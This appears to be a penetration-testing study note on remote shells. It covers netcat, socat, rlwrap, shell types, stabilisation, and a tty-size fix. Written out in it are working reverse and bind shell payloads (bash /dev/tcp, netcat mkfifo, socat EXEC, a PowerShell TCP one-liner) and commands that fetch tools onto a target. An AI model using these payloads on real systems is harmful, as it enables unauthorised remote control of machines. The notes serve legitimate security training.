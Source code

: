 # Shells
Shells are the `programs running inside the console that interpret your commands` ran on your CLI (Command-line interface). In other words, the common `bash` or `sh` programs in Linux are examples of shells, as are `cmd.exe` and `Powershell` on Windows.

When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, we want to use this initial access to obtain a shell running on the target.

Most used shells: `bash`, `sh`, `cmd.exe`, `powershell.exe` & `/bin/zsh`

## Tools
1. Netcat: A networking tool commonly used for setting up listeners and reverse shells.

    Example: `nc -lvnp <PORT>` where l=listen, v=verbose, n=no reverse-DNS & p=port specification.

2. Socat: An advanced alternative to Netcat, supports encrypted connections and more protocols. Encrypted Socat shells are also possible using `OPENSSL`.

    `socat TCP-L:<PORT> -` + `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` or `EXEC:powershell.exe,pipes`

3. Metasploit multi/handler
4. Msfvenom

Another useful set of tools:
1. `rlwrap`, a tool to wrap readline functionality for command-line utilities that lack it (e.g., netcat).
2. Python: Converting a simple shell into a fully interactive shell. `python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Types:
1. Reverse shell: We force a remote server to give us CLI access.

    Example : `rlwrap nc -lvnp 4444` (listener), `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1` 

2. Bind shell: We open a port on a remote server which we can connect to in order to execute commands.

    Example: `nc -lvnp <port> -e "cmd.exe"` (target machine), `nc MACHINE_IP <port>` (attacking machine).

### Interactive vs. Non-interactive shells
1. Interactive: These allow you to interact with programs after executing them.

    Example: `Powershell, Bash, Zsh, sh` or any other standard CLI environment

2. Non-Interactive: You are limited to using programs which `do not require user interaction` in order to run properly.

    Example: Can't run `ssh` but can run `whoami`, `pwd`, etc.

Where to find shells:
1. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
2. [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
3. [Revshells](https://www.revshells.com/)

## Other common shell commands
| Command | Purpose |
|-|-|
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade to a fully interactive shell. |
| `export TERM=xterm` | Fix terminal display issues in a simple shell. |
| `CTRL + Z` | Background the current shell process. |
| `stty raw -echo` and `fg` | Fix line formatting issues when bringing a shell to the foreground. |
| `rlwrap nc -lvnp <PORT>` | Use `rlwrap` for history and arrow key navigation in Netcat shells. |
| `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash` | Start an advanced reverse shell listener. |
| `php -r '...'` | Execute a PHP reverse shell payload. |

## Shell stabilisation
Shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors.

Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder.

### Technique 1: Python
Mostly used on Linux systems.

1. Spawn a python shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.
2. Get access to term commands such as `clear` using `export TERM=xterm`.
3. Background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). `To fix this, type reset and press enter`.

### Technique 2: rlwrap
Similar to `stty`, rlwrap gives us access to history, tab autocompletion and arrow keys.  however, some manual stabilisation must still be utilised if you want to be able to use `Ctrl + C` inside the shell.

1. Invoke a slightly different listener: `rlwrap nc -lvnp <port>`.
2. Background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Technique 3: Socat
Typically to Linux systems.

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.

1.  Transfer a [Socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

    A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file.
    
    Or using Powershell: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

    On Linux this would be accomplished with `curl` or `wget` (`wget <LOCAL-IP>/socat -O /tmp/socat`).

### Change your terminal tty size
With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

Example: `stty rows <number>` & `stty cols <number>`

## Common shell payloads
### Executing a process
In netcat there is a `-e` option which allows you to execute a process on connection. For example, as a listener: `nc -lvnp <PORT> -e /bin/bash` However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?).

On Linux, we would instead use this code to create a listener for a bind shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`. This creates a [`named pipe`](https://www.linuxjournal.com/article/2156) at `/tmp/f` and then starts a netcat listener and connects the input of that listener to the output of the named pipe. Then the output gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`. This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

### Powershell
When targeting a modern Windows Server, it is very common to require a Powershell reverse shell:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace `"<IP>"` and `"<port>"` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell.

### Msfvenom
